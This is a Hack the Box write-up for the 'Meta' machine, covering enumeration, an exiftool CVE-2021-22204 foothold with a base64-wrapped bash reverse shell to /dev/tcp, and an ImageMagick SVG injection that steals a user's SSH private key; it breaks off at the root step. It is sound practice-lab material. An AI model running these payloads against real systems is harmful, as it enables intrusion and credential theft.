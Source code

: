 # Meta from Hack the Box Write-up


## Enumeration

### nmap

port 22 (ssh) open - openSSH
port 80 (http) open - apache

|hostname | IP|
|---|---|
|artcorp.htb|10.10.11.140|

### Gobuster

Vhost discovery return one other hostname 'dev01.artcorp.htb'. Navigating there gets me to 'http://dev01.artcorp.htb/metaview/index.php' which reads the meta data of uploaded images.

**File/Command injection via metadata manipulation?**

Running gobuster against directories again returns a lot of 200 codes, which can't be right. Ajusting the command like this: 

```
gobuster dir --url http://dev01.artcorp.htb/metaview -w /usr/share/dirb/wordlists/common.txt -s "204,301,302,307,401,403"
```

returns a few hits: 

```
/.htaccess            (Status: 403) [Size: 199]
/.hta                 (Status: 403) [Size: 199]
/.htpasswd            (Status: 403) [Size: 199]
/assets               (Status: 301) [Size: 249] [--> http://dev01.artcorp.htb/metaview/assets/]
/css                  (Status: 301) [Size: 246] [--> http://dev01.artcorp.htb/metaview/css/]   
/index.php            (Status: 200) [Size: 1404]                                               
/lib                  (Status: 301) [Size: 246] [--> http://dev01.artcorp.htb/metaview/lib/]   
/uploads              (Status: 301) [Size: 250] [--> http://dev01.artcorp.htb/metaview/uploads/]
/vendor               (Status: 301) [Size: 249] [--> http://dev01.artcorp.htb/metaview/vendor/]

```
Not that useful yet.

## Foothold

Using _**CVE-2021-22204 - RCE**_ :

- ls -al :

```
total 36
drwxr-xr-x 7 root www-data 4096 Aug 28  2021 .
drwxr-xr-x 4 root root     4096 Oct 18  2021 ..
drwxr-xr-x 2 root www-data 4096 Aug 28  2021 assets
-rw-r--r-- 1 root www-data   72 Aug 28  2021 composer.json
drwxr-xr-x 2 root www-data 4096 Aug 28  2021 css
-rw-r--r-- 1 root www-data 2786 Aug 29  2021 index.php
drwxr-xr-x 2 root www-data 4096 Aug 28  2021 lib
drwxrwxr-x 2 root www-data 4096 Jun  8 02:38 uploads
drwxr-xr-x 3 root www-data 4096 Aug 28  2021 vendor
```

I can write to uploads.

- pwd :

```
/var/www/dev01.artcorp.htb/metaview
```


- ls -al /home/:

shows there is a user named thomas

-> trying to ssh into meta with thomas -> permission denied (publickey)

- ls -al /home/thomas/:

```
drwxr-xr-x 4 thomas thomas 4096 Jan 17 07:53 .
drwxr-xr-x 3 root   root   4096 Aug 29  2021 ..
lrwxrwxrwx 1 root   root      9 Aug 29  2021 .bash_history -> /dev/null
-rw-r--r-- 1 thomas thomas  220 Aug 29  2021 .bash_logout
-rw-r--r-- 1 thomas thomas 3526 Aug 29  2021 .bashrc
drwxr-xr-x 3 thomas thomas 4096 Aug 30  2021 .config
-rw-r--r-- 1 thomas thomas  807 Aug 29  2021 .profile
drwx------ 2 thomas thomas 4096 Jan  4 10:22 .ssh
-rw-r----- 1 root   thomas   33 Jun  9 01:08 user.txt
```

I can't read '.ssh'

By following the '.config' directory it shows that **neofetch** is installed and useable by the user thomas.

- cat /etc/passwd:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
thomas:x:1000:1000:thomas,,,:/home/thomas:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
```

### Reverse shell
 
 - try base64 'payload' -> decode on meta box
	 - base64 encoding and decoding works
		 - there is something blocking reverse shells

```
echo bash -c 'bash -i >& /dev/tcp/10.10.14.3/80 0>&1' | base64
```
putting it into

```
exiftool -config eval.config test01.jpg -eval='system("echo ZWNobyAiaGVsbG8sIHRoaXMgaXMgd29ya2luZyIK | base64 -d | bash")'
```


This gives me a shell as www-data!



## Privilege escalation to user

- Potential privesc with exploit 47502 due to sudo version 1.8.27

- script running:
```
www-data@meta:/usr/local/bin$ cat convert_images.sh
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
```

using mogrify

```
mogrify --version
Version: ImageMagick 7.0.10-36 Q16 x86_64 2021-08-29 https://imagemagick.org
Copyright: © 1999-2020 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): fontconfig freetype jng jpeg png x xml zlib
```

-> version is vulnerable to XML injection (CVE-2020-29599)

- saving a malicious .svg file to /dev/shm and cp it to /var/www/dev01.artcorp.htb/convert_images returns thomas's id_rsa saved in exp

```
<image authenticate='ff" `echo $(.ssh/id_rsa)> /dev/shm/exp`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```


The id_rsa key is in a bad format, but rearranging it is quite simple: replace spaces with new line.

```
ssh -i test thomas@10.10.11.140
Linux meta 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
thomas@meta:~$ 

```

**I'm in!**


## Privilege escalation root

- sudo -l:
	- reveals thomas can use sudo on neofetch without a password
